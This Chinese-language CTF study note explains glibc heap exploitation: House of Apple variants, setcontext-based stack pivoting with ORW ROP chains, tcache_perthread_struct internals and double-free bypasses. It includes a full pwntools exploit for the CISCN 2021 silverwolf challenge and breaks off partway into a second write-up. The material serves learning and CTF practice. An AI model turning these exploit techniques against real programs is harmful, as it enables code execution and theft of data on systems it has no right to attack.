3. fake_IO_1 使用 _IO_wstrn_jumps。
   exit 刷新 FILE 链表时，会调用：
   _IO_OVERFLOW(fake_IO_1, EOF)
   -> _IO_wstrn_overflow(fake_IO_1, EOF)。

4. _IO_wstrn_overflow 利用 fake_IO_1->_wide_data = B，
   将 B 到 B+0x38 的多个指针槽位写成 fake_IO_1+0xf0 或 fake_IO_1+0x1f0。

5. 令 B 的选择刚好覆盖 TLS 中的 tcache 指针，
   使：
   tcache = fake_IO_1 + 0xf0。

6. 在 fake_IO_1+0xf0 处伪造 tcache_perthread_struct，
   设置目标 size 对应的 counts[idx] 和 entries[idx]，
   让后续 malloc(new_size) 返回攻击者指定地址 target。

7. fake_IO_2 使用 _IO_str_jumps。
   exit 继续处理 fake_IO_2 时，触发 _IO_str_overflow。

8. _IO_str_overflow 内部调用：
   new_buf = malloc(new_size);
   memcpy(new_buf, old_buf, old_blen);

   由于 tcache 已被劫持，malloc 返回 target，
   于是形成：
   memcpy(target, old_buf, old_blen)。

9. 使用该写能力修改 pointer_guard 和 IO_accept_foreign_vtables：
   - pointer_guard 改成已知值，例如 0；
   - IO_accept_foreign_vtables 改成 PTR_MANGLE(&_IO_vtable_check) 后的值。

10. vtable 检查被绕过后，
    后续 fake_IO 可以直接使用堆上的 fake vtable，
    例如让 fake vtable->__overflow 指向 system、setcontext 或其他控制流目标。
```

#### 思路二：修改mp_结构体

该思路与上述思路差不多，不过对tcachebin分配的劫持是通过修改mp_.tcache_bins这个变量。打这个结构体的好处是在攻击远程时不需要爆破地址，因为线程全局变量、tls结构体的地址本地和远程并不一定是一样的，有时需要爆破。

mp_ 是 glibc malloc 内部的一个全局参数结构体，全名可以理解为：
```c
static struct malloc_par mp_;
```
它里面保存 malloc 的全局调参信息，比如 mmap_threshold、arena_max、tcache_count、tcache_bins、tcache_max_bytes 等。glibc 源码里 malloc_par 结构体确实包含 tcache_bins，注释含义是“最大使用多少个 tcache buckets”；同时源码中只有一个 mp_ 实例，并初始化了 .tcache_bins = TCACHE_MAX_BINS

也就是说
```c
mp_.tcache_bins = tcache 允许使用的 size class 数量上限
```
通常情况TCACHE_BAX_BINS = 64 ，只有 tc_idx < 64 的请求才会走 tcache。malloc中有如下的判断
```c
if (tc_idx < mp_.tcache_bins
    && tcache != NULL
    && tcache->counts[tc_idx] > 0)
{
    victim = tcache_get(tc_idx);
    return victim;
}
```
glibc 源码中的 __libc_malloc 就是在计算 tc_idx 后，检查 tc_idx < mp_.tcache_bins、tcache != NULL、tcache->counts[tc_idx] > 0，满足后直接从 tcache 返回 chunk。

所以把mp_.tcache_bins改成一个很大的值，那么原本tc_idx >= 64的较大chunk也能通过检查，然后用tcachebin来管理

这个利用的顺序如下，还是先用largebin attack把_IO_list_all改到第一个 fake _IO_FILE。

然后利用第一个fake FILE改mp_.tcache_bins

之后吗，利用扩大后的tcache索引范围，劫持一次malloc，正常情况下，tcache_perthread_struct 只有固定数量的 counts[] 和 entries[]。但是如果 mp_.tcache_bins 被改得很大，malloc 对大 tc_idx 也会访问：
```c
tcache->counts[tc_idx]
tcache->entries[tc_idx]
```
这时如果 tc_idx >= 64，这些访问就会越过正常 tcache 数组范围，读到 tcache_perthread_struct 后面的内存。

所以这个方法不是“只改 mp_.tcache_bins 就成功”，还需要你能布置对应的越界位置
```
tcache->counts[tc_idx] > 0
tcache->entries[tc_idx] = target_addr
```
然后malloc就会返回target位置

后续就和上面的一样

7. fake_IO_2 使用 _IO_str_jumps。
   exit 继续处理 fake_IO_2 时，触发 _IO_str_overflow。

8. _IO_str_overflow 内部调用：
   new_buf = malloc(new_size);
   memcpy(new_buf, old_buf, old_blen);

   由于 tcache 已被劫持，malloc 返回 target，
   于是形成：
   memcpy(target, old_buf, old_blen)。

9. 使用该写能力修改 pointer_guard 和 IO_accept_foreign_vtables：
   - pointer_guard 改成已知值，例如 0；
   - IO_accept_foreign_vtables 改成 PTR_MANGLE(&_IO_vtable_check) 后的值。

10. vtable 检查被绕过后，
    后续 fake_IO 可以直接使用堆上的 fake vtable，
    例如让 fake vtable->__overflow 指向 system、setcontext 或其他控制流目标。

这里需要说明一下，虽然tcachebin是按照chunk的大小来管理的，但是实际的代码中，chunk的大小会被映射成tc_idx，代码如下

```c
#define request2size(req) \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ? \
   MINSIZE : \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

#define csize2tidx(x) \
  (((x) - MINSIZE + MALLOC_ALIGNMENT - 1) / MALLOC_ALIGNMENT)

#define usize2tidx(x) csize2tidx(request2size(x))
```

源码中 malloc 会先把用户请求大小 bytes 通过 checked_request2size 转成实际 chunk size tbytes/nb，再用 csize2tidx 得到 tc_idx，然后判断 tc_idx < mp_.tcache_bins 和 tcache->counts[tc_idx] > 0，满足时从 tcache->entries[tc_idx] 取 chunk。

在 64 位 glibc 常见情况下：
```
SIZE_SZ          = 0x8
MALLOC_ALIGNMENT = 0x10
MINSIZE          = 0x20
```

可以简化得到tc_idx = (chunk_size - 0x20) / 0x10

具体的例子可以参考下面这个gpt给的示例
[关于 House of Apple 的示例](house_of示例/house_of_apple.md)


#### 思路三：修改pointer_guard线程变量之house of emma

该思路其实就是house of apple + house of emma。

利用步骤如下：

伪造两个_IO_FILE结构体
第一个_IO_FILE结构体执行_IO_OVERFLOW的时候，利用_IO_wstrn_overflow函数修改tls结构体pointer_guard的值为已知值
第二个_IO_FILE结构体用来做house of emma利用即可控制程序执行流

#### 思路四：修改global_max_fast全局变量

这个思路也很灵活，修改掉这个变量后，直接释放超大的chunk，去覆盖掉point_guard或者tcache变量。我称之为house of apple + house of corrision。

利用过程与前面也基本是大同小异，就不在此详述了。

其实也有其他的思路，比如还可以劫持main_arena，不过这个结构体利用起来会更复杂，所需要的空间将更大。而在上述思路的利用过程中，可以选择错位构造_IO_FILE结构体，只需要保证关键字段满足要求即可，这样可以更加节省空间。


### 例题分析


# Setcontext

setcontext函数是libc中一个独特的函数，它的功能是传入一个 SigreturnFrame 结构指针，然后根据 SigreturnFrame 的内容设置各种寄存器。 因此从 setcontext+53（不同 libc 偏移可能不同）的位置开始有如下 gadget，即根据 rdi 也就是第一个 参数指向的 SigreturnFrame 结构设置寄存器。

在free堆块的时候，rdi会指向堆块，在检测到__free_hook有值的情况下，会跳过去执行，此时的rdi仍然指向堆块地址。我们就可以让__free_hook指向setcontext+53处来劫持程序流。

```bash
<setcontext>:	    push   rdi
<setcontext+1>:	  lea    rsi,[rdi+0x128]
<setcontext+8>:	  xor    edx,edx
<setcontext+10>:	mov    edi,0x2
<setcontext+15>:	mov    r10d,0x8
<setcontext+21>:	mov    eax,0xe
<setcontext+26>:	syscall 
<setcontext+28>:	pop    rdi
<setcontext+29>:	cmp    rax,0xfffffffffffff001
<setcontext+35>:	jae    0x7f8930e9a0d0 <setcontext+128>
<setcontext+37>:	mov    rcx,QWORD PTR [rdi+0xe0]
<setcontext+44>:	fldenv [rcx]
<setcontext+46>:	ldmxcsr DWORD PTR [rdi+0x1c0]
<setcontext+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
<setcontext+60>:	mov    rbx,QWORD PTR [rdi+0x80]
<setcontext+67>:	mov    rbp,QWORD PTR [rdi+0x78]
<setcontext+71>:	mov    r12,QWORD PTR [rdi+0x48]
<setcontext+75>:	mov    r13,QWORD PTR [rdi+0x50]
<setcontext+79>:	mov    r14,QWORD PTR [rdi+0x58]
<setcontext+83>:	mov    r15,QWORD PTR [rdi+0x60]
<setcontext+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
<setcontext+94>:	push   rcx
<setcontext+95>:	mov    rsi,QWORD PTR [rdi+0x70]
<setcontext+99>:	mov    rdx,QWORD PTR [rdi+0x88]
<setcontext+106>:	mov    rcx,QWORD PTR [rdi+0x98]
<setcontext+113>:	mov    r8,QWORD PTR [rdi+0x28]
<setcontext+117>:	mov    r9,QWORD PTR [rdi+0x30]
<setcontext+121>:	mov    rdi,QWORD PTR [rdi+0x68]
<setcontext+125>:	xor    eax,eax
<setcontext+127>:	ret  
<setcontext+128>:	mov    rcx,QWORD PTR [rip+0x398d91]  
<setcontext+135>:	neg    eax
<setcontext+137>:	mov    DWORD PTR fs:[rcx],eax
<setcontext+140>:	or     rax,0xffffffffffffffff
<setcontext+144>:	ret
```

其作用是用户上下文的设置，所以我们在可以小范围控制执行流，在已知libc_base，但不足以完成我们的目标时可以先跳setcontext+53来扩大控制范围。

非常好用，可以直接控制大部分寄存器和执行流。

setcontext函数我们只需要关心setcontext+53到setcontext+127即可。

这段代码其实就是利用rdi指向的地址＋偏移来给各个寄存器赋值，并且控制rip。

通常情况下，我们会利用这段gadgets来实现一次任意写。

通过系统调用syscall(0,0,buf,size)来实现read(0,buf,szie)。

所以我们需要让rax=0，rdi=0，rsi=buf，rdx=size。

```python
payload = p64(0)*13+p64(0)#rdi
payload+= p64(buf)#rsi
payload+= p64(0)*2+p64(0x300)#rdx
payload+= p64(0)*2+p64(buf)+p64(syscall)
```

rdi、rsi、rdx都比较好理解，xor eax,eax也会使得rax=0了，这里讲一下为什么将rsp也设置成buf，将rcx设置成syscall_ret。

在setcontext+94处有一行汇编push rcx



我们将rsp设置成buf，将rcx设置成syscall_ret，执行完push rcx之后，此时rsp会指向syscall_ret，在代码执行到ret的时候就会跳转到rsp指向的地址（也就是buf）继续进行系统调用。

简单来说，rcx写的就是一会rip会去的地方

此时我们向buf可以直接写orw读取flag，也可以先利用mprotect来将此处赋予可执行权限后写入shellcode来orw。

payload2可以这样写，是由第一段payload构造的read读进去的：

```python
payload = p64(pop_rdi)+p64(buf)
payload+= p64(pop_rsi)+p64(0x1000)
payload+= p64(pop_rdx)+p64(7)
payload+= p64(pop_rax)+p64(10)
payload+= p64(syscall) #mprotect(buf,0x1000,7)
payload+= p64(jmp_rsp)
payload+= asm(shellcraft.open('./flag'))
payload+= asm(shellcraft.read(3,free_hook+0x300,0x30))
payload+= asm(shellcraft.write(1,free_hook+0x300,0x30))
```

ROP链如下

```python
orw = p64(pop_rdi) + p64(flag_addr) #flag_addr中是edit('./flag' )
orw += p64(pop_rax) + p64(2)
orw += p64(pop_rsi) + p64(0)
orw += p64(syscall)
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(heap_base  + 0x3000)
orw += p64(pop_rdx) + p64(0x20)
orw += p64(read)
orw += p64(pop_rdi) + p64(1)
orw += p64(write)
```

### 结合free_hook控制程序流

free_hook函数如下


在调用free函数时，内部会先检查free_hook上是否有东西（是不是NULL），如果有的话就调用free_hook上的地址

其中传进去的第一个参数（rdi）是所free的堆块的地址，第二个参数（rsi）好像是free完后的返回地址

也就是只要往free_hook上写上setcontext + 53，再往一个堆块上写上ucontext_t结构体，然后把这个堆块free掉，就可以把栈移到任意位置

具体来说，free的时候，rdi指向堆块（不是“chunk 头”，而是：malloc 返回的那个用户区指针），所以可以先往free的chunk中对应位置写入内容，再把free_hook储存的地址改为setcontext + 53后，程序就会执行下面的移动寄存器内容行为，等到setcontext执行完后，栈上寄存器的位置我们也改完了，这时候执行ret，栈就会迁移到刚刚rsp设置的位置，然后执行我们的rop链

### 例题 [CISCN 2021 初赛]silverwolf

allocate:大小限制为0x78，只有序号为0的chunk分配了空间，前八位是大小，后八位是指向chunk的指针,buf=指针 qword=size

edit：只能对0编辑，

delete：没有制空指针

show：打印内容

查看沙箱

```bash
└─# seccomp-tools dump ./silverwolf          
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
 0007: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

只能打orw

动调看一下状态，发现这个程序在还没free的时候，bin中就有很多chunk了

```bash
pwndbg> bins
tcachebins
0x20 [  7]: 0x555555604120 —▸ 0x5555556041c0 —▸ 0x555555604340 —▸ 0x5555556044c0 —▸ 0x555555604640 —▸ 0x555555604750 —▸ 0x555555603f30 ◂— 0
0x70 [  6]: 0x555555603fc0 —▸ 0x5555556041e0 —▸ 0x555555604360 —▸ 0x5555556044e0 —▸ 0x555555604660 —▸ 0x555555603f50 ◂— 0
0x80 [  7]: 0x555555603da0 —▸ 0x5555556040a0 —▸ 0x555555604140 —▸ 0x5555556042c0 —▸ 0x555555604440 —▸ 0x5555556046d0 —▸ 0x555555603eb0 ◂— 0
0xd0 [  1]: 0x5555556033c0 ◂— 0
0xf0 [  2]: 0x555555604550 —▸ 0x555555603be0 ◂— 0
fastbins
0x20: 0x555555603e10 ◂— 0
0x70: 0x555555603d20 —▸ 0x555555603e30 —▸ 0x555555604020 —▸ 0x5555556043c0 ◂— 0
unsortedbin
empty
smallbins
empty
largebins
empty
```

因为这题最多申请0x78的用户空间，所以chunk块大小最多为0x80，没法直接进unsortbin，所以得利用tcache_prethread，其本身是个0x250大小的堆块，所以这里先利用double free泄漏heap基址，之后控制tcache_prethread，将0x250位置的count改为7，free tcache_prethread就能得到libc基址

这题开了沙箱，所以不能直接得到shell，得写Setcontext来控制构造栈迁移，控制各个寄存器执行ORW

之后先改写tcache_prethread把free_hook的地址放进去，再次申请一个chunk用来放Seccontext的内容，修改free_hook的地址指向seccontext，就能得到flag

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
elf = ELF('silverwolf')
libc = ELF('libc-2.27.so')
local = 0
binary = 'silverwolf'
port = '20328'

if local == 1:
    io = process(binary)
else:
    io = remote("node4.anna.nssctf.cn",port)

def add(size):
    io.sendlineafter(': ', '1')
    io.sendlineafter(': ', str(0))
    io.sendlineafter(': ', str(size))

def edit(content):
    io.sendlineafter(': ', '2')
    io.sendlineafter(': ', str(0))
    io.sendlineafter(': ', content)

def show():
    io.sendlineafter(': ', '3')
    io.sendlineafter(': ', str(0))

def free():
    io.sendlineafter(': ', '4')
    io.sendlineafter(': ', str(0))


add(0x30)
free()
edit(b'deadbeef'+p64(0))
free()
show()
io.recvuntil('Content: ')
heap_base = u64(io.recv(6).ljust(8, b'\x00')) & 0xfffffffff000
heap_base -= 0x1000
success('heap_base -> {}'.format(hex(heap_base)))
edit(p64(heap_base+0x10))
add(0x30)
add(0x30)
edit('\x00'*0x23 + '\x07')
free()
show()
io.recvuntil('Content: ')
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x70 - libc.sym['__malloc_hook']
success('libc_base -> {}'.format(hex(libc_base)))
# pause()
free_hook = libc_base + libc.sym['__free_hook']
pop_rdi = libc_base + 0x215bf
pop_rax = libc_base + 0x43ae8
pop_rsi = libc_base + 0x23eea
pop_rdx = libc_base + 0x1b96
read = libc_base + libc.sym['read']
write = libc_base + libc.sym['write']
setcontext = libc_base + libc.sym['setcontext'] + 53
syscall = libc_base + 0xE5965
flag_addr = heap_base + 0x1000
ret = libc_base + 0x8aa

#add(0,0x240)
payload = b'\x02'*0x40
payload += p64(free_hook)#0x20
payload += p64(0)#0x30
payload += p64(heap_base + 0x1000)#flag #0x40
payload += p64(heap_base + 0x2000)#stack #0x50
payload += p64(heap_base + 0x20A0)#stack 0x60
payload += p64(heap_base + 0x3000)#orw1 #0x70
payload += p64(heap_base + 0x3060)#orw2 #0x80
# pasue()
edit(payload)
#gdb.attach(io)
# pause()
orw = p64(pop_rdi) + p64(flag_addr)
orw += p64(pop_rax) + p64(2)
orw += p64(pop_rsi) + p64(0)
orw += p64(syscall)
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(heap_base  + 0x3000)
orw += p64(pop_rdx) + p64(0)
orw += p64(read)
orw += p64(pop_rdi) + p64(1)
orw += p64(write)

add(0x18)
edit(p64(setcontext))
add(0x38)
edit('./flag' )#heap_base + 0x1000

add(0x68) #heap_base + 0x3000
edit(orw[:0x60])
add(0x78)
edit(orw[0x60:])

add(0x58)# heap_base + 0x20A0
edit(p64(heap_base + 0x3000)+p64(ret))# heap_base + 0x20A0
add(0x48)#heap_base + 0x2000
# gdb.attach(io)
# pause()
free()
#gdb.attach(io)
io.interactive()
```

## tcache_perthread_struct结构体

tcache 是 glibc 2.26 (ubuntu 17.10) 之后引入的一种技术，目的是提升堆管理的性能，与 fastbin 类似。 tcache 引入了两个新的结构体，tcache_entry和 tcache_perthread_struct 。
两个结构体源码如下

```c
/* 当一个 chunk 被存入线程本地缓存（per-thread cache）时，
  我们会把该结构体叠加到这个 chunk 的用户数据区上。 */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
/* 每个线程都会有这样一个结构体，用来保存该线程的缓存
  （因此命名为 "tcache_perthread_struct"）。保持整体
  结构体体积较小有一定重要性。注意 COUNTS 和 ENTRIES
  在信息上是冗余的（本来也可以每次通过遍历链表计数），
  之所以这样设计是出于性能考虑。 */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

TCACHE_MAX_BINS:
# define TCACHE_MAX_BINS        64

```

我们在引入了tcache的glibc版本中，申请第一块chunk时查看heap状态会发现多申请了一块大小0x250的chunk（glibc2.32+为0x290，因为counts的类型从char变成了uint16_t）。这个chunk就是 tcache_perthread_struct

counts数组存储的是各个size的tcache bin中的chunk数量，而entries指针数组则存放着各个size的tcache bin中的第一个chunk的mem地址(fd地址而非堆头地址)
我们通过调试SWPUCTF_2019_p1KkHeap这道题目的程序来使其直观化

我们先申请了size为0x80，0x90，0xa0的三个chunk，查看heap如下

```bash
Allocated chunk | PREV_INUSE
Addr: 0x555555a01000
Size: 0x250 (with flag bits: 0x251)

Allocated chunk | PREV_INUSE
Addr: 0x555555a01250
Size: 0x90 (with flag bits: 0x91)

Allocated chunk | PREV_INUSE
Addr: 0x555555a012e0
Size: 0xa0 (with flag bits: 0xa1)

Allocated chunk | PREV_INUSE
Addr: 0x555555a01380
Size: 0xb0 (with flag bits: 0xb1)

Top chunk | PREV_INUSE
Addr: 0x555555a01430
Size: 0x20bd0 (with flag bits: 0x20bd1)
```

发现除了我们申请的三个chunk，还有一个size为0x250的chunk，正是 tcache_perthread_struct。然后我们free申请的三个chunk

```bash
Allocated chunk | PREV_INUSE
Addr: 0x555555a01000
Size: 0x250 (with flag bits: 0x251)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x555555a01250
Size: 0x90 (with flag bits: 0x91)
fd: 0x00

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x555555a012e0
Size: 0xa0 (with flag bits: 0xa1)
fd: 0x00

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x555555a01380
Size: 0xb0 (with flag bits: 0xb1)
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x555555a01430
Size: 0x20bd0 (with flag bits: 0x20bd1)

```

注意这里显示的chunk地址是从堆头开始计的，也就是包括了pre_size域和size域。此时查看bins

```bash
tcachebins
0x90 [  1]: 0x555555a01260 ◂— 0
0xa0 [  1]: 0x555555a012f0 ◂— 0
0xb0 [  1]: 0x555555a01390 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
empty
largebins
empty
```

注意bins中的chunk地址是从fd开始计的

三个chunk已经加入了tcachebins（大小为0x20到0x410),我们查看 tcache_perthread_struct

```bash
pwndbg> x/80gx 0x555555a01000
0x555555a01000: 0x0000000000000000      0x0000000000000251
0x555555a01010: 0x0100000000000000      0x0000000000000101
0x555555a01020: 0x0000000000000000      0x0000000000000000
0x555555a01030: 0x0000000000000000      0x0000000000000000
0x555555a01040: 0x0000000000000000      0x0000000000000000
0x555555a01050: 0x0000000000000000      0x0000000000000000
0x555555a01060: 0x0000000000000000      0x0000000000000000
0x555555a01070: 0x0000000000000000      0x0000000000000000
0x555555a01080: 0x0000000000000000      0x0000555555a01260
0x555555a01090: 0x0000555555a012f0      0x0000555555a01390
0x555555a010a0: 0x0000000000000000      0x0000000000000000
0x555555a010b0: 0x0000000000000000      0x0000000000000000
0x555555a010c0: 0x0000000000000000      0x0000000000000000
0x555555a010d0: 0x0000000000000000      0x0000000000000000
0x555555a010e0: 0x0000000000000000      0x0000000000000000
0x555555a010f0: 0x0000000000000000      0x0000000000000000
0x555555a01100: 0x0000000000000000      0x0000000000000000
0x555555a01110: 0x0000000000000000      0x0000000000000000
0x555555a01120: 0x0000000000000000      0x0000000000000000
0x555555a01130: 0x0000000000000000      0x0000000000000000
0x555555a01140: 0x0000000000000000      0x0000000000000000
0x555555a01150: 0x0000000000000000      0x0000000000000000
0x555555a01160: 0x0000000000000000      0x0000000000000000
0x555555a01170: 0x0000000000000000      0x0000000000000000
0x555555a01180: 0x0000000000000000      0x0000000000000000
0x555555a01190: 0x0000000000000000      0x0000000000000000
0x555555a011a0: 0x0000000000000000      0x0000000000000000
0x555555a011b0: 0x0000000000000000      0x0000000000000000
0x555555a011c0: 0x0000000000000000      0x0000000000000000
0x555555a011d0: 0x0000000000000000      0x0000000000000000
0x555555a011e0: 0x0000000000000000      0x0000000000000000
0x555555a011f0: 0x0000000000000000      0x0000000000000000
0x555555a01200: 0x0000000000000000      0x0000000000000000
0x555555a01210: 0x0000000000000000      0x0000000000000000
0x555555a01220: 0x0000000000000000      0x0000000000000000
0x555555a01230: 0x0000000000000000      0x0000000000000000
0x555555a01240: 0x0000000000000000      0x0000000000000000
```

正如上示， tcache_perthread_struct的size域为0x251（含标志位），实际大小为0x555555a01000到0x555555a01240的0x250大小的一块。

我们先记0x555555a01000为heapbase，heapbase+0x10到heapbase+0x40这一块为counts数组，heapbase+0x50到heapbase+0x250的大小0x200（0x40*8）的一块为entries数组

heapbase+0x50存放大小0x20的tcachebin的第一个chunk的fd地址，heapbase+0x58存放大小0x30的tcachebin的第一个chunk的fd地址，以此类推，在heap+0x88存放的是大小0x90的tcachebin的第一个chunk的mem地址，即0x555555a01260，heap+0x90和heap+0x98处同理

而counts数组位置记录的chunk数量是如何索引的呢？

```bash
pwndbg> x/40bx 0x555555a01010
0x555555a01010: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x01
0x555555a01018: 0x01    0x01    0x00    0x00    0x00    0x00    0x00    0x00
0x555555a01020: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x555555a01028: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x555555a01030: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

如上所示为counts数组，在counts数组为char类型的版本中（也就是此处版本），在小端序情况下，从heap+0x10处开始，按照低字节到高字节（也就是低地址到高地址）存储。如上所示（在使用x/gx查看de时候显示出的数据会按照小端序的方式以0x8字节为单位呈现，会使得在高地址的第八个0x01被理解为高位，所以改用x/bx查看更加直观）
第1字节存放大小0x20的tcachebin的chunk数量，以此类推看到第8字节，9字节，10字节都是0x01，也就是我们释放的三个chunk。

值得注意的是，在2025年glibc又有了一次新的补丁，tcache_perthread大小更新为0x300，同时，count的语义产生了变化，不再是以及有的数量，而是还能放入多少个，如下所示

```bash
pwndbg> x/60gx 0x555555613000
0x555555613000: 0x0000000000000000      0x0000000000000301
0x555555613010: 0x0007000700070006      0x0007000700070007
0x555555613020: 0x0007000700070007      0x0007000700070007
```

### tcache的double free

由于在看这部分的学习博客时，多个博主同时提到了double free，所以先放在这里讲一下，后续再看怎么归档

在glibc2.29下，新增了针对Double Free的检查：

```c
// #if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
    /* Check to see if it's already in the tcache.  */
    tcache_entry *e = (tcache_entry *) chunk2mem (p);

    /* This test succeeds on double free.  However, we don't 100%
       trust it (it also matches random payload data at a 1 in
       2^<size_t> chance), so verify it's not an unlikely
       coincidence before aborting.  */
    if (__glibc_unlikely (e->key == tcache))
      {
        tcache_entry *tmp;
        LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
        for (tmp = tcache->entries[tc_idx];
         tmp;
         tmp = tmp->next)
          if (tmp == e)
        malloc_printerr ("free(): double free detected in tcache 2");
        /* If we get here, it was a coincidence.  We've wasted a
           few cycles, but don't abort.  */
      }

    if (tcache->counts[tc_idx] < mp_.tcache_count)
      {
        tcache_put (p, tc_idx);
        return;
      }
      }
  }
// #endif
```

简单来说，tcache_entry 有 next 和 key 两个字段，next存放的时下一个chunk块的fd的位置，key存放的时根据系统内容随机生成的一个值。后续我把free的堆块称作"e"，tcache_put() 会把 e->key = tcache_key，tcache_get() 取出时又把 e->key = 0。

free() 走到 tcache 路径时，如果发现 e->key == tcache_key，它接着会沿对应 tcache bin 的单链表遍历，做三件事：检查数量是否超过 mp_.tcache_count、检查节点是否对齐、检查链里是否真的已经有这个 e。只有链里再次看到同一块，才会认定为 tcache double free。就直接 malloc_printerr("free(): double free detected in tcache 2") 并中止。

在2025年的更新前，有很多方式可以绕过这个东西，2025年的补丁把验证扩成了跨所有 tcache bins 扫描

最轻松的莫过于可以记录多个chunk指针且我们free完后可以修改，可以进行A->B，然后对A的next值进行修改就可以A->C，之后扫描的时候扫不到B，就不会说B是double free了

当free完后不能进行修改，我们可以tcache bin填满进入fastbin，再通过A->b->A进行绕过，然后可以同上操作（没懂

还可以通过修改函数把chunk的key给抹去后，再次释放，就可以进入tcache bin的表链

那么，double free能用来干嘛呢

能用来泄漏heap基址，例如，a被free且afree后进入fastbin或者tcachebin后，其指向下一个chunk的指针为0，当其再次被free，其指针就能指向自己的地址（tcache中指向用户区，fastbin中指向chunk头）这样就能根据相对偏移，就能得到heap基址，之后得到tcache_perthread各个位置从而控制tcache_perthread

制造“同一块内存被多个逻辑引用”，也就是多个指针指向同一个chunk块

### 漏洞利用：修改counts数组和entries指针数组

查看tcache_free函数

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache
        && tc_idx < mp_.tcache_bins
        && tcache->counts[tc_idx] < mp_.tcache_count)//<7
      {
        tcache_put (p, tc_idx);
        return;
      }
  }
#endif
```

当对应大小的tcachebin中的chunk数量小于7时，会优先放入tcachebin，然而这里检查的是tcache->counts数组中的元素，也就是根据tcache_perthread_struct中的数据来判断，但却没有检查double free（在glibc2.29之后引入了key字段来防御double free，然而仍然可以绕过，关于不同版本glibc的堆管理和保护机制我再单独开一篇博客来记录）

而tcache_perthread_struct本身也是可以free的，其也可直接当做大小0x250（0x290）的chunk来看待。同理，如果想要把tcache_perthread_struct放入unsorted bin，就要将tcache->counts中记录0x250（0x290）大小chunk的数量改为7

再看在使用tcache时的malloc

```c
#if USE_TCACHE
  /* int_free also calls request2size, be careful to not pad twice.  */
  size_t tbytes;
  checked_request2size (bytes, tbytes);
  size_t tc_idx = csize2tidx (tbytes);
  MAYBE_INIT_TCACHE ();
  DIAG_PUSH_NEEDS_COMMENT;
  if (tc_idx < mp_.tcache_bins
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
      && tcache
      && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
```

简单来说，就是malloc会先查看entry数组中对应chunk大小的位置是否有内容，若有的话，直接使用其内容里存的地址用作chunk

所以说，如果我们能够修改tcache_perthread_struct中的数据，也就能控制整个tcachebins。我们可以修改counts数组的数量，以将chunk放到我们想放置的其他bins中（比如放入unsortedbin来泄露malloc_hook，libc），也可以修改entries数组的数据来malloc任意地址。

#### 例题SWPUCTF_2019_p1KkHeap   buuctf

add:创建一个chunk，大小不能超过0x100,最多有八个chunk

```c
  if ( v1 <= 7 )
  {
    qword_202100[v1] = malloc(size);
    dword_2020E0[v1] = size;
  }
```

show：读内容，直接读202100之后的内容

```c
  puts((const char *)qword_202100[size]);
```

edit：写内容，向2100处写入20e0大小的内容

delete：有个全局变量2020，数字为3，当2020小于等于0的时候不能使用delete，所以有三次free机会，未置空指针

查看沙箱

```bash
└─# seccseccomp-tools dump ./SWPUCTF_2019_p1KkHeap 
================================================================================
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x07 0x00 0x40000000  if (A >= 0x40000000) goto 0011
 0004: 0x15 0x06 0x00 0x0000003b  if (A == execve) goto 0011
 0005: 0x15 0x00 0x04 0x00000001  if (A != write) goto 0010
 0006: 0x20 0x00 0x00 0x00000024  A = count >> 32 # write(fd, buf, count)
 0007: 0x15 0x00 0x02 0x00000000  if (A != 0x0) goto 0010
 0008: 0x20 0x00 0x00 0x00000020  A = count # write(fd, buf, count)
 0009: 0x15 0x01 0x00 0x00000010  if (A == 0x10) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

开了沙箱，处理execve和write 16的情况都没有过滤，所以可以使用ORW

运行gdb，vmmap查看

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
        0x66660000         0x66661000 rwxp     1000       0 [anon_66660]
    0x555555400000     0x555555402000 r-xp     2000       0 SWPUCTF_2019_p1KkHeap
```

找到一个可写可读可执行的代码段

